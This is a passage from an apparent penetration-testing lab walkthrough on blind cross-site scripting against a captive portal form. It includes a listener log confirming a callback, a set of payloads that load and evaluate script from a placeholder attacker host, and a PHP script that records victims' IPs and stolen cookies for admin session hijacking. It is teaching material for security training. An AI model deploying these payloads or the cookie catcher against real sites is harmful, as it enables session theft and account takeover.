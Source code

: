 Listening on 0.0.0.0 9200
Connection received on 200.200.200.1 50220

GET /TESTING_THIS%3C/script HTTP/1.1
Host: 200.200.200.78:9200
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
</code></pre>
<p>This confirms that the form is vulnerable to a Blind XSS attack, meaning our payload executes on a page we do not have direct access to, such as an admin panel or internal system.</p>
<p>Various Blind XSS payloads often begin with an injection like <code>'&gt;</code>, which may or may not work depending on how the input is processed on the backend. To determine the correct XSS payload, we need to identify how user input is processed and reflected, as the page may be vulnerable, but a specific payload might not work. In such cases, a trial-and-error approach is necessary by testing multiple payloads and identifying which one successfully executes.</p>
<p>The following are a few more payload examples we can use for blind xss testing from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss">PayloadsAllTheThings</a>:</p>
<pre><code class="language-javascript">&lt;script src=http://OUR_IP&gt;&lt;/script&gt;
'&gt;&lt;script src=http://OUR_IP&gt;&lt;/script&gt;
"&gt;&lt;script src=http://OUR_IP&gt;&lt;/script&gt;
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
&lt;script&gt;function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();&lt;/script&gt;
&lt;script&gt;$.getScript("http://OUR_IP")&lt;/script&gt;
</code></pre>
<hr/>
<p>Now that we have confirmed the web page is vulnerable to XSS, we can explore how to leverage XSS in the context of a captive portal.</p>
<ol>
<li>
<code>Administrative Support</code>: Suppose that these requests are submitted here and also loaded via an admin page, we might be able to specially craft some javascript to have the Administrative cookie sent to us.</li>
<li>
<code>General Session Token/Cookie Usage</code>: Generally speaking, if this was something like a review page, which might be common in a guest network, we might receive client session tokens/cookies upon their visit to this page.</li>
</ol>
<hr/>
<h3>Cookie Jacking</h3>
<p>Next, we need to figure out how we can steal an admin's cookie so we can log in and see what type of access we can get. We can do this by creating the following two files:</p>
<ol>
<li>index.php</li>
</ol>
<pre><code class="language-php">&lt;?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key =&gt; $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?&gt;
</code></pre>
<ol start="2">